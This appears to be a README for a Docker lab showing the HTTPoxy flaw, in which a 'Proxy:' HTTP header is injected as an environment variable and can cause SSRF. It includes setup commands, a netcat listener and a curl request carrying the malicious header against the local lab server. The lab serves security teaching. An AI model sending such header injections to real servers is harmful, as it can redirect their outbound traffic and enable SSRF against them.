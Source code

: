 # HTTPOXY
## Injection of environment variable via "Proxy:" HTTP Header
### Can lead to SSRF without URI path control

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run the lab:
```
cd 1-httpoxy
docker-compose up -d
```

### On another terminal windows run:
```
nc -lvp 9999
curl -H "Proxy: [Your IP]:9999" http://[Your IP]:8080/index.php 
```

![image](https://user-images.githubusercontent.com/31791455/140382286-fdfccc75-cf13-488f-9ebd-aa8c83fe38d3.png)


### Explanation
HTTP Server will interpret Proxy: header value and try to connect to it. This can lead to SSRF.

### References and recommended reading
https://httpoxy.org/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/cgi/httpoxy

